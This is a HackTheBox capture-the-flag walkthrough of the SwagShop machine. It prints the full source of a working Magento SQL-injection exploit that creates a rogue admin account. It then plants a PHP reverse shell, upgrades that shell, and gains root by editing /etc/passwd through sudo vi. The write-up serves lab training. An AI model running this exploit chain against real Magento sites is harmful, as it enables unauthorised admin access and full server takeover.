

# Write-up of SwagShop HTB
Hey Guys,Today we will be doing Swagshop from HackTheBox


<br/>
We will start off with nmap scan of the ip 10.10.10.140 

```
[sarthak@sarthak swagshop]$ nmap -sV 10.10.10.140 -v -Pn
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-19 11:54 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 11:54
Completed Parallel DNS resolution of 1 host. at 11:54, 0.01s elapsed
Initiating Connect Scan at 11:54
Scanning 10.10.10.140 [1000 ports]
Discovered open port 22/tcp on 10.10.10.140
Discovered open port 80/tcp on 10.10.10.140
Completed Connect Scan at 11:55, 34.33s elapsed (1000 total ports)
Initiating Service scan at 11:55
Scanning 2 services on 10.10.10.140
Completed Service scan at 11:55, 6.52s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.140.
Initiating NSE at 11:55
Completed NSE at 11:55, 1.12s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Nmap scan report for 10.10.10.140
Host is up (0.25s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
1045/tcp filtered fpitp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.42 seconds
```
We have port 80 opened let's see what we got there ...<br/>


Here we have Magento platform running,So after googling of 15 min we found a [exploit](https://www.exploit-db.com/exploits/37977) which will create a admin account for us,So let's quickly download and run this exploit(ip address has been already changed inside the exploit)


```
[sarthak@sarthak swagshop]$ python2 exp.py 
/usr/lib/python2.7/site-packages/requests/__init__.py:91: RequestsDependencyWarning: urllib3 (1.25.2) or chardet (3.0.4) doesn't match a supported version!
  RequestsDependencyWarning)
DID NOT WORK
[sarthak@sarthak swagshop]$ 

```


hmm...it doesn't work ..after reviewing the source code of exploit program was looking for the '/admin/' path let's first find it manually...


Notice the url here it's weird that it has http://10.10.10.140/index.php/customer/
So what i did here was replaced /customer/ with /admin/ and now we can see the admin panel


Now we will modify the exploit and then run

FINAL EXPLOIT CODE:-
```python
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

```
Now let's seee

```
[sarthak@sarthak swagshop]$ python2 exp.py 
/usr/lib/python2.7/site-packages/requests/__init__.py:91: RequestsDependencyWarning: urllib3 (1.25.2) or chardet (3.0.4) doesn't match a supported version!
  RequestsDependencyWarning)
WORKED
Check http://10.10.10.140/admin with creds forme:forme
[sarthak@sarthak swagshop]$ 

```

we have creds now after logging in i looked up for exploits to get shell and found one [video](https://www.youtube.com/watch?v=pDKb_LOoDes) on youtube in which that person has uploaded shell by using the filesystem section but then i realised we don't have that section 

So after googling around, I found the [extension](https://pluginarchive.com/magento/magpleasure_filesystem) and way to upload it ...


So after clicking it we got the portal to login


we will use same creds from exploit *forme:forme*


We will upload the filesystem extension 


Now we will go back to admin panel by click on *Return to Admin* section


go to System -->File system-->IDE


Open the get.php and replace with the php reverse shell which i got from [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)


We got the shell when we opened this link [http://10.10.10.140/get.php](http://10.10.10.140/get.php)



now we will first make the shell fully interactive

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl +z
stty raw -echo  
fg
export SHELL=bash
export TERM=xterm
```
Output:-
```
$ which python3                  
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@swagshop:/$ ^Z
[1]+  Stopped                 nc -nvlp 1234
[sarthak@sarthak swagshop]$ stty raw -echo  
[sarthak@sarthak swagshop]$ nc -nvlp 1234

www-data@swagshop:/$ export SHELL=bash
www-data@swagshop:/$ export TERM=xterm
www-data@swagshop:/$ 
```

now we will see if we have sudo permissions

```
www-data@swagshop:/$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
www-data@swagshop:/$ 

```

We can run vi with everything inside html so what we will do is we will make a symlink of passwd file and we will place a openssl hash at root section to login !!


We have created a symlink ...<br/>
```
www-data@swagshop:/$ ln -s /etc/passwd /var/www/html/
```

Now we have created a password hash for root as 'pass123'


Open passwd file with vi
```
www-data@swagshop:/$ sudo /usr/bin/vi /var/www/html/passwd
```
Placed the hash 


Now login as root

```
www-data@swagshop:/$ su root
Password: 
root@swagshop:/# id
uid=0(root) gid=0(root) groups=0(root)
root@swagshop:/# 
```

And we got root !!!!


That's all for today guys :grimacing:<br/>
I hope you would enjoy this writeup..!!


